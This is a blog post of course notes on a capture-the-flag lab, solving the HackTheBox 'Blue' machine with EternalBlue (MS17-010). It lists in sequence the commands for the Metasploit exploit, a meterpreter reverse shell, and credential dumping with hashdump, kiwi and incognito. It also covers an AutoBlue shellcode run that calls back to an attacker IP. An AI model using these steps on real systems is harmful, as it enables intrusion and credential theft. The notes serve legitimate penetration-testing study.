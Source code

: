 ```yaml
---
layout:     post
title:      TCM PEH Hacking Blue Notes
date:       2021-03-13
summary:    TheCyberMentor's Practical Ethical Hacking course, HackTheBox Blue notes
categories: certs
thumbnail: cogs
tags:
 - htb
 - certs
---
```





<h2 class="code-line" data-line-start=0 data-line-end=1 ><a id="HTB_Blue_0"></a>HTB Blue</h2>
<p class="has-line-data" data-line-start="1" data-line-end="4">ms17-010 eternal blue<br>
you’ll see this on penetration tests all the time internal to network<br>
NOTE: EternalBlue can bring down the machine</p>
<p class="has-line-data" data-line-start="5" data-line-end="9">nmap -A -T4 -p- 10.10.10.40<br>
Noted 139 open<br>
Noted 445 open<br>
Noted Windows 7 SP1 &lt;-------Always think EternalBlue</p>
<hr>
<p class="has-line-data" data-line-start="10" data-line-end="29">msfconsole<br>
search ms17-010<br>
Noted an auxiliary scanner for ms17_010<br>
use auxiliary/scanner/smb/ms17_010_eternalblue<br>
options<br>
set rhost 10.10.10.40<br>
options<br>
exploit<br>
Noted result “host is likely vulnerable”<br>
use exploit/windows/smb/ms17_010_eternalblue<br>
options<br>
set rhost 10.10.10.40<br>
show targets<br>
exploit<br>
NOTE: This exploit doesn’t always work the first time<br>
Noted shell created<br>
whoami<br>
hostname<br>
ctrl+c to trash shell back to metasploit</p>
<hr>
<p class="has-line-data" data-line-start="30" data-line-end="54">payloads<br>
set payload windows/x64/meterpreter/reverse_tcp<br>
options<br>
exploit<br>
Noted shell created<br>
getuid<br>
sysinfo<br>
hashdump<br>
shell<br>
route print<br>
arp -a<br>
netstat -ao<br>
ctrl+c to trash shell back to meterpreter<br>
ps<br>
Noted that this 4444 shell is an svchost.exe process<br>
load kiwi<br>
help<br>
creds_all<br>
lsa_dump_sam<br>
lsa_dump_secrets<br>
load incognito<br>
list_tokens -u<br>
exit to dump shell back to metasploit<br>
exit to dump metasploit</p>
<hr>
<p class="has-line-data" data-line-start="55" data-line-end="87">Googled autoblue github<br>
Noted result link at github<br>
cd /opt<br>
git clone <a href="https://github">https://github</a>…com/3ndg4me/AutoBlue-MS17-010.git<br>
cd AutoBlue*<br>
ls<br>
python eternalblue_checker.py 10.10.10.40<br>
Noted result “target is not patched”<br>
cd ./shellcode<br>
./shell_prep.sh<br>
y<br>
10.10.14.24<br>
4445<br>
4448<br>
0<br>
0<br>
cd …<br>
ls<br>
./listener_prep.sh<br>
10.10.14.24<br>
4445<br>
4446<br>
0<br>
0<br>
Noted metasploit multihandler opened<br>
cd …<br>
ls<br>
python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin<br>
Noted session in metasploit multihandler<br>
sessions 1<br>
getuid<br>
hostname</p>



